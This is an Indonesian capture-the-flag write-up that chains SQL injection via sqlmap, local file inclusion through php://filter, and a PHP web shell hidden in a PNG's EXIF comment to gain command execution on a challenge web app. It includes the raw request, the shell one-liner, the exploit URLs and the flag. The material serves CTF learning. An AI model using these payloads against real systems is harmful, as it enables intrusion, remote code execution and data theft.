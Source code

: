 # Secret Notes 1
Percayakan rahasiamu pada kami, kami akan menjaganya sepenuh hati seperti n---skip---<br/>

http://103.171.85.90:8082<br/>

Password VM : **4d1b54eeaceb5277ea022f7b42b53113**

##  Penjelasan
Cari vulnerability dalam web tersebut.

## How to Solve
1. Setelah beberapa lama mencari endpoint yang vulnerable, saya menemukan bahwa halaman edit secret ***/page.php?f=editsecret&id=your-id*** vuln terhadap sql injection.<br/>
2. Test sql injection dengan menambahkan ' (quote) pada judul. Didapatkan error sebagai berikut :
```
UPDATE `secret` SET `judul` = 'a'', `secret` = 'a' WHERE `id` = '1431944397'You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'a' WHERE `id` = '1431944397'' at line 1
```
3. Gunakan tools sqlmap untuk mempercepat proses dump database.<br/>
command :<br/><br/>
``sqlmap -r exploit.txt --dump``<br/>
dengan isi file exploit.txt sebagai berikut :<br/><br/>
```

POST /page.php?f=editsecret&id=<your-id> HTTP/1.1
Host: 103.171.85.90:8082
User-Agent: <user-agent>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 28
Origin: http://103.171.85.90:8082
Connection: close
Referer: http://103.171.85.90:8082/page.php?f=editsecret&id=2145985763
Cookie: PHPSESSID=<php-session-id>
Upgrade-Insecure-Requests: 1

judul=test*&secret=test
```

didapatkan user dengan username **first-flag-is** dan password **KKST2021{do_you_k**

4. Saya lanjut mencari endpoint yang dapat di exploit lagi dan ditemukan bahwa parameter **editsecret** pada ***page.php?f=editsecret&id=your-id*** vuln terhadap **Local File Inclusion**
5. Check error dengan mengganti **editsecret** dengan value lain yang invalid.
**/page.php?f=randomstring**
didapatkan error sebagai berikut :<br/><br/>
```
**Warning**: include(randomstring.php): failed to open stream: No such file or directory in **/var/www/html/page.php** on line **15**  
  
**Warning**: include(): Failed opening 'randomstring.php' for inclusion (include_path='.:/usr/local/lib/php') in **/var/www/html/page.php** on line **15**
```
Dari error tersebut, saya mengira seperti inilah yang ada pada file page.php<br/>
```
<?php
	include($_GET["f"].".php");
	...
?>
```
6. Gunakan **php://filter/convert.base64-encode/resource=** untuk membaca file.<br/>
``http://103.171.85.90:8082/page.php?f=php://filter/convert.base64-encode/resource=page``
didapatkan isi dari **page.php** dalam base64 encoding.<br/>
```
PD9waHAgaW5jbHVkZSgnaGVhZGVyLnBocCcpOyA/PgoKCjw/cGhwCgogICAgaWYoaXNzZXQoJF9HRVRbJ2YnXSkpewoKCgogICAgICAgICRmaWxlcyA9ICRfR0VUWydmJ10uIi5waHAiOwoKICAgICAgICBpZihwcmVnX21hdGNoKCcvXC5wbmcvbScsICRfR0VUWydmJ10pKXsKICAgICAgICAgICAgaW5jbHVkZSAkX0dFVFsnZiddOwogICAgICAgIH1lbHNlewogICAgICAgICAgICBpbmNsdWRlICRmaWxlczsKICAgICAgICB9CgogICAgICAgIAoKICAgIH0KCj8+CgoKPD9waHAgaW5jbHVkZSgnZm9vdGVyLnBocCcpOyA/Pg==
```
Setelah di decoding, didapatkan isi dari file **page.php**<br/><br/>
```<?php include('header.php'); ?>
<?php

    if(isset($_GET['f'])){



        $files = $_GET['f'].".php";

        if(preg_match('/\.png/m', $_GET['f'])){
            include $_GET['f'];
        }else{
            include $files;
        }



    }

?>


<?php include('footer.php'); ?>
```
Setelah membaca file tersebut, ada sesuatu yang menarik yaitu, saya dapat memanggil file **png** dan di halaman **upload.php** terdapat form upload file untuk mengunggah gambar. Saya berpikiran untuk mengupload backdoor dengan file png yang disisipkan kode php, sehingga ketika nanti file png tersebut dipanggil, maka kode php tersebut berjalan.

7. Gunakan **exiftool** untuk menambahkan kode php ke dalam file png.
	command :<br/>
	 ``exiftool -Comment='<?=`$_GET[0]`?>' file.png``
8. Upload file tersebut pada halaman **upload.php**, otomatis file tersebut akan ter-rename dengan format **file/\<nama-user\>.png** dalam kasus saya adalah **file/user.png**
9. Panggil file png yang sudah diupload tadi.
``http://103.171.85.90:8082/page.php?f=file/user.png``  
10. Setelah memanggil file png tadi, sekarang saya dapat melakukan command shell. 
``http://103.171.85.90:8082/page.php?f=file/user.png&0=<your-command>``
11. Gunakan command **ls -lah** untuk melihat directory, sehingga ditemukan folder **.Administrator** yang berisikan file index.php
12. Gunakan command **cat** untuk membaca file tersebut.
``http://103.171.85.90:8082/page.php?f=file/user.png&0=cat .Administrator/index.php``
13. view-page source dan didapatkan flag bagian kedua :<br/>
```
<?php 
  $another_flag = "now_another_cooking?_twiceeee!!!}";
?>
```

## Flag
KKST2021{do_you_know_another_cooking?_twiceeee!!!}
